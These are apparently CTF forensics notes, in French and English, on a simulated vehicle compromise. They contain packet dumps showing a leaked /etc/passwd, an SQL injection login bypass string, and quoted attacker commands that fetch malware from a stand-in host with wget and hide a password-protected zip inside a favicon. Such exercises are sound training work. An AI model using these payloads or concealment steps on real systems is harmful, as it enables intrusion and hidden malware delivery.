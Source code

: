 # Mission Briefing
Opérateur 10 à Cyberphantom. Prenez message :

Nous avons perdu la communication avec un véhicule alors que nous sommes en pleine opération.
Nous avons une suspicion de hacking. J'ai besoin de votre diagnostic afin de rétablir la communication avec le véhicule dans les plus brefs délais.

Vous trouverez ici les derniers logs de communication entre la station radio et le véhicule. Ces informations devraient vous être utiles.

Terminé.

# Info get
3 IPs
10.10.0.2
10.10.0.254
163.172.68.42 => hypotetic server ip

## Details and Findings
We see that a lot of command is used on the Tserv
We can see that someone write a hash on the /tmp/secret file 
```bash
0000   00 04 00 01 00 06 02 42 0a 0a 00 fe 00 00 08 00   .......B........
0010   45 00 00 84 ec c4 40 00 40 06 5a d1 0a 0a 00 fe   E.....@.@.Z.....
0020   a3 ac 44 2a 9a 30 00 17 80 60 6c 5a 89 9a 4f 57   ..D*.0...`lZ..OW
0030   80 18 01 e9 f3 54 00 00 01 01 08 0a b3 12 b6 84   .....T..........
0040   b3 39 10 33 65 63 68 6f 20 55 6b 31 37 4e 32 46   .9.3echo Uk17N2F
0050   6d 5a 6a 4a 68 4e 6a 41 33 59 6a 45 7a 5a 6a 63   mZjJhNjA3YjEzZjc
0060   7a 59 32 49 77 4f 54 4d 32 5a 6a 6b 32 5a 54 59   zY2IwOTM2Zjk2ZTY
0070   33 59 6a 49 78 4d 44 49 77 4e 32 46 6c 4d 44 51   3YjIxMDIwN2FlMDQ
0080   33 4e 58 30 4b 20 3e 20 2f 74 6d 70 2f 73 65 63   3NX0K > /tmp/sec
0090   72 65 74 0a                                       ret.
```

`Uk17N2FmZjJhNjA3YjEzZjczY2IwOTM2Zjk2ZTY3YjIxMDIwN2FlMDQ3NX0K` = `efa3fb1f409aa622dddd7220ad6567580fb68b68`

```bash
0000   00 04 00 01 00 06 02 42 0a 0a 00 fe 00 00 08 00   .......B........
0010   45 00 00 4f ec ab 40 00 40 06 5b 1f 0a 0a 00 fe   E..O..@.@.[.....
0020   a3 ac 44 2a 9a 30 00 17 80 60 6b f2 89 9a 46 b7   ..D*.0...`k...F.
0030   80 18 01 f6 f3 1f 00 00 01 01 08 0a b3 12 41 b3   ..............A.
0040   b3 38 a9 8d 76 6c 52 30 49 51 77 4a 4c 36 30 52   .8..vlR0IQwJL60R
0050   47 51 76 41 38 6e 65 32 6d 6f 70 58 5a 6b 0a      GQvA8ne2mopXZk.
```

`vlR0IQwJL60RGQvA8ne2mopXZk` = ?

```bash
0000   00 00 00 01 00 06 02 42 37 94 7b 6e 00 00 08 00   .......B7.{n....
0010   45 00 00 6c 76 8e 00 00 34 06 1d 20 a3 ac 44 2a   E..lv...4.. ..D*
0020   0a 0a 00 fe 00 17 9a 30 89 9a 4f 57 80 60 6c aa   .......0..OW.`l.
0030   80 18 01 fe 8a 70 00 00 01 01 08 0a b3 39 1e 94   .....p.......9..
0040   b3 12 b6 84 0d 00 3c 7a 59 32 49 77 4f 54 4d 32   ......<zY2IwOTM2
0050   5a 6a 6b 32 5a 54 59 33 59 6a 49 78 4d 44 49 77   Zjk2ZTY3YjIxMDIw
0060   4e 32 46 6c 4d 44 51 33 4e 58 30 4b 20 3e 20 2f   N2FlMDQ3NX0K > /
0070   74 6d 70 2f 73 65 63 72 65 74 0d 0a               tmp/secret..
```

`<zY2IwOTM2Zjk2ZTY3YjIxMDIwN2FlMDQ3NX0K` = ?

```bash
0000   00 00 00 01 00 06 02 42 37 94 7b 6e 00 02 08 00   .......B7.{n....
0010   45 00 04 4a 76 93 00 00 34 06 19 3d a3 ac 44 2a   E..Jv...4..=..D*
0020   0a 0a 00 fe 00 17 9a 30 89 9a 4f eb 80 60 6c da   .......0..O..`l.
0030   80 18 01 fe 9d 85 00 00 01 01 08 0a b3 39 35 81   .............95.
0040   b3 12 cd 84 72 6f 6f 74 3a 78 3a 30 3a 30 3a 72   ....root:x:0:0:r
0050   6f 6f 74 3a 2f 72 6f 6f 74 3a 2f 62 69 6e 2f 62   oot:/root:/bin/b
0060   61 73 68 0d 0a 64 61 65 6d 6f 6e 3a 78 3a 31 3a   ash..daemon:x:1:
0070   31 3a 64 61 65 6d 6f 6e 3a 2f 75 73 72 2f 73 62   1:daemon:/usr/sb
0080   69 6e 3a 2f 75 73 72 2f 73 62 69 6e 2f 6e 6f 6c   in:/usr/sbin/nol
0090   6f 67 69 6e 0d 0a 62 69 6e 3a 78 3a 32 3a 32 3a   ogin..bin:x:2:2:
00a0   62 69 6e 3a 2f 62 69 6e 3a 2f 75 73 72 2f 73 62   bin:/bin:/usr/sb
00b0   69 6e 2f 6e 6f 6c 6f 67 69 6e 0d 0a 73 79 73 3a   in/nologin..sys:
00c0   78 3a 33 3a 33 3a 73 79 73 3a 2f 64 65 76 3a 2f   x:3:3:sys:/dev:/
00d0   75 73 72 2f 73 62 69 6e 2f 6e 6f 6c 6f 67 69 6e   usr/sbin/nologin
00e0   0d 0a 73 79 6e 63 3a 78 3a 34 3a 36 35 35 33 34   ..sync:x:4:65534
00f0   3a 73 79 6e 63 3a 2f 62 69 6e 3a 2f 62 69 6e 2f   :sync:/bin:/bin/
0100   73 79 6e 63 0d 0a 67 61 6d 65 73 3a 78 3a 35 3a   sync..games:x:5:
0110   36 30 3a 67 61 6d 65 73 3a 2f 75 73 72 2f 67 61   60:games:/usr/ga
0120   6d 65 73 3a 2f 75 73 72 2f 73 62 69 6e 2f 6e 6f   mes:/usr/sbin/no
0130   6c 6f 67 69 6e 0d 0a 6d 61 6e 3a 78 3a 36 3a 31   login..man:x:6:1
0140   32 3a 6d 61 6e 3a 2f 76 61 72 2f 63 61 63 68 65   2:man:/var/cache
0150   2f 6d 61 6e 3a 2f 75 73 72 2f 73 62 69 6e 2f 6e   /man:/usr/sbin/n
0160   6f 6c 6f 67 69 6e 0d 0a 6c 70 3a 78 3a 37 3a 37   ologin..lp:x:7:7
0170   3a 6c 70 3a 2f 76 61 72 2f 73 70 6f 6f 6c 2f 6c   :lp:/var/spool/l
0180   70 64 3a 2f 75 73 72 2f 73 62 69 6e 2f 6e 6f 6c   pd:/usr/sbin/nol
0190   6f 67 69 6e 0d 0a 6d 61 69 6c 3a 78 3a 38 3a 38   ogin..mail:x:8:8
01a0   3a 6d 61 69 6c 3a 2f 76 61 72 2f 6d 61 69 6c 3a   :mail:/var/mail:
01b0   2f 75 73 72 2f 73 62 69 6e 2f 6e 6f 6c 6f 67 69   /usr/sbin/nologi
01c0   6e 0d 0a 6e 65 77 73 3a 78 3a 39 3a 39 3a 6e 65   n..news:x:9:9:ne
01d0   77 73 3a 2f 76 61 72 2f 73 70 6f 6f 6c 2f 6e 65   ws:/var/spool/ne
01e0   77 73 3a 2f 75 73 72 2f 73 62 69 6e 2f 6e 6f 6c   ws:/usr/sbin/nol
01f0   6f 67 69 6e 0d 0a 75 75 63 70 3a 78 3a 31 30 3a   ogin..uucp:x:10:
0200   31 30 3a 75 75 63 70 3a 2f 76 61 72 2f 73 70 6f   10:uucp:/var/spo
0210   6f 6c 2f 75 75 63 70 3a 2f 75 73 72 2f 73 62 69   ol/uucp:/usr/sbi
0220   6e 2f 6e 6f 6c 6f 67 69 6e 0d 0a 70 72 6f 78 79   n/nologin..proxy
0230   3a 78 3a 31 33 3a 31 33 3a 70 72 6f 78 79 3a 2f   :x:13:13:proxy:/
0240   62 69 6e 3a 2f 75 73 72 2f 73 62 69 6e 2f 6e 6f   bin:/usr/sbin/no
0250   6c 6f 67 69 6e 0d 0a 77 77 77 2d 64 61 74 61 3a   login..www-data:
0260   78 3a 33 33 3a 33 33 3a 77 77 77 2d 64 61 74 61   x:33:33:www-data
0270   3a 2f 76 61 72 2f 77 77 77 3a 2f 75 73 72 2f 73   :/var/www:/usr/s
0280   62 69 6e 2f 6e 6f 6c 6f 67 69 6e 0d 0a 62 61 63   bin/nologin..bac
0290   6b 75 70 3a 78 3a 33 34 3a 33 34 3a 62 61 63 6b   kup:x:34:34:back
02a0   75 70 3a 2f 76 61 72 2f 62 61 63 6b 75 70 73 3a   up:/var/backups:
02b0   2f 75 73 72 2f 73 62 69 6e 2f 6e 6f 6c 6f 67 69   /usr/sbin/nologi
02c0   6e 0d 0a 6c 69 73 74 3a 78 3a 33 38 3a 33 38 3a   n..list:x:38:38:
02d0   4d 61 69 6c 69 6e 67 20 4c 69 73 74 20 4d 61 6e   Mailing List Man
02e0   61 67 65 72 3a 2f 76 61 72 2f 6c 69 73 74 3a 2f   ager:/var/list:/
02f0   75 73 72 2f 73 62 69 6e 2f 6e 6f 6c 6f 67 69 6e   usr/sbin/nologin
0300   0d 0a 69 72 63 3a 78 3a 33 39 3a 33 39 3a 69 72   ..irc:x:39:39:ir
0310   63 64 3a 2f 76 61 72 2f 72 75 6e 2f 69 72 63 64   cd:/var/run/ircd
0320   3a 2f 75 73 72 2f 73 62 69 6e 2f 6e 6f 6c 6f 67   :/usr/sbin/nolog
0330   69 6e 0d 0a 67 6e 61 74 73 3a 78 3a 34 31 3a 34   in..gnats:x:41:4
0340   31 3a 47 6e 61 74 73 20 42 75 67 2d 52 65 70 6f   1:Gnats Bug-Repo
0350   72 74 69 6e 67 20 53 79 73 74 65 6d 20 28 61 64   rting System (ad
0360   6d 69 6e 29 3a 2f 76 61 72 2f 6c 69 62 2f 67 6e   min):/var/lib/gn
0370   61 74 73 3a 2f 75 73 72 2f 73 62 69 6e 2f 6e 6f   ats:/usr/sbin/no
0380   6c 6f 67 69 6e 0d 0a 6e 6f 62 6f 64 79 3a 78 3a   login..nobody:x:
0390   36 35 35 33 34 3a 36 35 35 33 34 3a 6e 6f 62 6f   65534:65534:nobo
03a0   64 79 3a 2f 6e 6f 6e 65 78 69 73 74 65 6e 74 3a   dy:/nonexistent:
03b0   2f 75 73 72 2f 73 62 69 6e 2f 6e 6f 6c 6f 67 69   /usr/sbin/nologi
03c0   6e 0d 0a 5f 61 70 74 3a 78 3a 31 30 30 3a 36 35   n.._apt:x:100:65
03d0   35 33 34 3a 3a 2f 6e 6f 6e 65 78 69 73 74 65 6e   534::/nonexisten
03e0   74 3a 2f 62 69 6e 2f 66 61 6c 73 65 0d 0a 73 79   t:/bin/false..sy
03f0   73 6c 6f 67 3a 78 3a 31 30 31 3a 31 30 32 3a 3a   slog:x:101:102::
0400   2f 68 6f 6d 65 2f 73 79 73 6c 6f 67 3a 2f 62 69   /home/syslog:/bi
0410   6e 2f 66 61 6c 73 65 0d 0a 74 65 6c 6e 65 74 64   n/false..telnetd
0420   3a 78 3a 31 30 32 3a 31 30 33 3a 3a 2f 6e 6f 6e   :x:102:103::/non
0430   65 78 69 73 74 65 6e 74 3a 2f 62 69 6e 2f 66 61   existent:/bin/fa
0440   6c 73 65 0d 0a 72 6f 6f 74 40 65 30 36 61 35 37   lse..root@e06a57
0450   38 35 66 65 32 34 3a 7e 23 20                     85fe24:~# 
```

- found webserv on port 5000 => http://163.172.68.42:5000/login
    The website login can easily be bypass with SQLi in the username input: `admin' -- OR 1=1` 
    Get the logs of the server of the vehicul 

- The hacker get a payload from a host (https://attacker.tld/m4lw3r3) that is been change on the /etc/hosts file before

0. before done anything the hacker hide this hash on the /tmp/.password file
```bash 
Aug 27 12:25:02 COMCYBER_SRV root[250822]: CMD(echo 'efa3fb1f409aa622dddd7220ad6567580fb68b68' > /tmp/.password) [0]
```

1. Change the hosts for target his host
```bash
Aug 27 12:30:03 COMCYBER_SRV root[250822]: CMD(vim /etc/hosts) [0]
```

2. Create a /hack dir on the /tmp/
```bash
Aug 27 12:33:45 COMCYBER_SRV root[250822]: CMD(mkdir hack) [0]
```

3. Download something from this hosts and put it on the /dev/null rep
```bash
Aug 27 12:33:45 COMCYBER_SRV root[250822]: CMD(wget -O /dev/null https://attacker.tld/m4lw3r3) [0]
```

4. Create a zip with the password from step 0 nammed secret.txt and put the message.txt and m4lw3r3 on it 
```bash
Aug 27 12:33:56 COMCYBER_SRV root[250822]: CMD(zip --password $(cat /tmp/.password) secret.zip message.txt m4lw3r3) [0]
```

5. The hacker put the content of the secret.zip into the favicon on the following url /app/static/assets/images/favicon.ico

```bash 
Aug 27 12:38:48 COMCYBER_SRV root[250822]: CMD(cat /app/static/assets/images/favicon.ico ./secret.zip > /app/static/assets/images/favicon.ico) [0]
```

# M4lw3r3 Analysis 

While reversing the malware i found this hex code with the instruction You should be able to decrypt this :
```bash
0x39c463428c629ce94df5bc1cb17bec86cb2231203a5270c59 8173f31415ff710696318d9e889e1c891728fed2ed14a291a5b3b76e217d6f3bf24bd484b71f08843b4f3cbb 30a5d480cf4e34339c5e06acc76574cfbea08a4fca2c73388b4e08831f8e037489092346809d7c164ab270a5 e04ae40a327c99590da89025ac48aa5
```
WHAT IS THIS ENCRYPTION ???
